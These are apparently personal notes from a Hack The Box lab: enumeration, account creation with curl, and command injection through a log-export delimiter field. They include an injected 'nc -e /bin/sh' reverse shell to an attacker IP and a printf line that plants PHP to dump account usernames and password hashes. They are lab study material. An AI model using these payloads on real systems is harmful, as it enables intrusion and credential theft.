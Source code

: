 ### Box Info
OS: Linux\
IP: 10.10.11.104

## Part I 

### Skills learned:
Curl/Python
CMD injection

### Enumeration
nmap -p- -A -oN Exploreprts.txt ${IP}
+ 22 OpenSSH
+ 80 Apache httpd 2.4.29 


### Dirb ${IP}/ -X .php
+ /accounts.php
    + Ability to create UN && PW            
+ /login.php
+ /status.php

### Step 1: User Account
+ Create account with curl request
  + curl -is -X POST -d "username=${UN}&password=${PW}&confirm=${PW}" ${IP}/accounts.php 
+ Login with new account:
  + Upload access, "MySQL server is online and connected", 3(2) registered admins, *sitebackup.zip*, User: m4lwhere
  + Management Menu -> Request Log Data: file delimeter

### Step 2: CMD Injection
+ inspect file delimeter
  + change comma to inlcude a nc shell
    + comma && nc -e /bin/sh ${AttackerIP} ${port#}
  + setup a listner shell : nc -lnp ${port#}

### Step 3: Shell
+ python -V
+ check https://github.com/crcirq32/Bash/blob/main/reverseshells.sh to upgrade shell
+ m4lwhere seems to house all permissions
  + Must access users from db to get more info on m4lwhere
    + printf '<?php\n$db = connectDB();\n$query = "SELECT username, password FROM accounts";\n$users = $db->query($query);\nif ($users->num_rows > 0) {\nwhile($row = mysqli_fetch_assoc($users)) {\nvar_dump($row);\n}\n}\n$db->close();' >> status.php
    + ${IP}/status.php should now connect to DB and expose users

TODO: 10.10.11.104 Hung up - Stuck in limbo. Contact HTB
TODO: server is filtering my machine 
